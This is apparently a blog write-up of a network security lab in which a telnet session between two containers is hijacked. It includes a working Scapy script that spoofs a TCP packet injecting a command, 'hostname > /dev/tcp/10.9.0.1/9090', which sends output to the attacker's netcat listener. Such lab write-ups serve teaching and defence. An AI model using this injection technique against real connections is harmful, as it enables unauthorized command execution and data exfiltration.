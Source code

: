 +++
title = "TCP Attack Lab 2 - Hijack"
date = "2023-04-30"
description = "Hijacking a TCP connection."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection.

In the first part of this series, we conducted a TCP Reset attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In this second installment, we will hijack the `telnet` connection and execute an arbitrary command.


# Setup

The set up is the same as the [previous post](/blog/posts/tcp-attack-lab).

 
# Hijacking a `telnet` Connection

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server execute an arbitrary command on our behalf.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial screen capture"](/blog/images/tcp-hijacking/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet connection"](/blog/images/tcp-hijacking/telnet-init.png)

The telnet connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark screen capture"](/blog/images/tcp-hijacking/wireshark-data.png)

Using Wireshark to construct our hijack packet.

---


## Brief: `netcat`

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat init"](/blog/images/tcp-hijacking/netcat-init.png)

Setting up a TCP server using netcat to see the output of our hijack attack.

---


# Running the exploit

The following code will send our hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r hostname > /dev/tcp/10.9.0.1/9090 \r"

	pkt = ip/tcp/data

	print("SENDING HIJACK PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement number as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-hijacking/python-attack.png)

Running the attack program with arguments for source port, sequence, and acknowledgement numbers.

---

The `netcat` TCP server we established on port 9090 displays the output from the `hostname` command run on the server. 

!["netcat after"](/blog/images/tcp-hijacking/netcat-after.png)

The TCP server displays the hostname of the server.

---

Which we can verify matches User 2's hostname. 

!["result"](/blog/images/tcp-hijacking/hostname.png)

Hostname of the telnet server, User 2

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

We explored the TCP protocol in greater depth, hijacking a TCP connection between two users on the same LAN as the attacker and executing an arbitrary command.

In the final installment of this series, we will go a step further and execute a reverse shell using the TCP hijacking technique presented here.


### _Updated: April 30, 2023_